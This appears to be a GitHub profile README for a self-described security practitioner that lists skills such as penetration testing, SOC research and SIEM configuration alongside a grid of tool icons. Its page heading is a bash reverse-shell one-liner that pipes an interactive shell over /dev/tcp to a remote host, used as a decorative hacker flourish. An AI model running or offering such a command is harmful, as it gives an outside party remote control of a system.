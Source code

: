  <h1 align="center"> /bin/bash -i >& /dev/tcp/Sandra.Costales/444 0>&1 </h1>


<p align="left">
  
  <img src="https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeDgzMmtzamtpeTB6cmF3aHZ2NmNyM3JyYzlhcG5uaHRjd3JuNTJ4cyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYQ9HRm5Mo7VXeMNVR/giphy.gif" alt="image" width="450" align="right">
  </p>

   &lt;configuration&gt;

🖥️ Systems Administration

🛡️ Network Security

🔍 Soc Researcher

👾 Ethical Hacking

💥 Penetration Testing

 ⚙️ SIEM Configuration

   &lt;/configuration&gt;


<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=git,kubernetes,docker,ansible,aws,bash,debian,elasticsearch,gitlab,grafana,html,js,kali,linux,md,mysql,netlify,nginx,powershell,prometheus,py,raspberrypi,ubuntu,vscode&perline=12  " />
  </a>
</p>





